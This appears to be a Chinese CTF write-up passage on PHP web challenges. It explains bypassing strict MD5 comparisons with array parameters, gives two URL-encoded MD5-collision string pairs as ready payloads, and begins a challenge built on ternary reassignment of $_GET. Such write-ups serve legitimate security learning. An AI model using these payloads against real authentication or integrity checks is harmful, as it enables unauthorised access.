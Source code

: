 强比较绕过：

1. 数组绕过，md5无法处理数组，会返回NULL；
   即md5(NULL)=md5(NULL)

   ```
   a[]=1&b[]=2
   ```

   

2. ```php
   (string)$_POST['a1']!==(string)$_POST['a2']&&md5($_POST['a1'])===md5($_POST['a2'])}
   # 最后转换为字符串比较，因此使用数组就不可行了
   (md5(implode('',$_GET['username']))===md5(implode('',$_GET['password']))
   # implode()会先把数组元素拼接成字符串再进行md5加密，使用数组就不可行了
   # 不过因为implode的要求参数为数组，传入非数组则会警告并返回NULL，所以碰到implode的话直接传字符串也能过 
   ```

   使用两组MD5值相同的不同字符串，这里可以用脚本跑，
   下面是url编码过后的值：

   ```
   # 1
   a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
   
   # 2
   a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
   ```

## 98-三元运算

```php
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);
```

三元运算符`(exp1) ? (exp2) : (exp3)`，如果`exp1`为真则执行`exp2`，否则执行`exp3`
